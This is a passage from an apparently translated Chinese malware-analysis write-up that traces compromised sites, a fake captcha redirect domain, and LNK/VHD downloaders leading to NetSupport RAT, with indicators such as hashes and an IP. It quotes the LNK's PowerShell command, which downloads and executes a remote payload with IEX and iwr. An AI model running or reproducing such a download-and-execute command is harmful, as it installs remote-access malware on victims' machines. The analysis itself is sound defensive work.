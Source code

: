 这些网站只是附加了一个指向验证码网站的重定向位置:

```
# echo “bD1odHRwczovL2lyc2J1c2luZXNzYXVkaXQubmV0L2NhcHRjaGEucGhw” |base64 — decode
l=hxxps://irsbusinessaudit[.]net/captcha.php
```

我们还可以关注这个验证码网站，因为他们重复使用相同的验证码入口代码:

![](img/9f54605c29bb095cfbff8e77820a141a.png)

当时 hlmequipment 域的 IP 地址是 5.252.178[。]213 基于被动 DNS 数据，该数据显示了 XLL 加载程序以及 LNK 文件的类似用法:

![](img/a2fc3bcacaf67c8d482784958c3f0688.png)

LNK 文件是一个下载器，也将用于最终导致 NetSupport RAT:

```
process call create “cmd /c start /min C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c IEX (iwr –usebasicparsing ‘http://5.252.178.213/restore.dat')"!%SystemRoot%\System32\SHELL32.dll
```

LNK 文件似乎是通过 VHD 文件垃圾利用。相关的 VHD 文件有:

```
fe2502a6432f272e6fcb7406182907cd54a94a958ee449be1528263a8caf0ac0
4ca5c2c0cc2bd56626c3499a88bd5b4ce2bf053c37e50902722220279e2d26d5
ba757fa287f859745578b293896e4405b040dad3b393a7128966f15fa28dd7d8
```

这些文件也可能存在于被入侵的网站上:

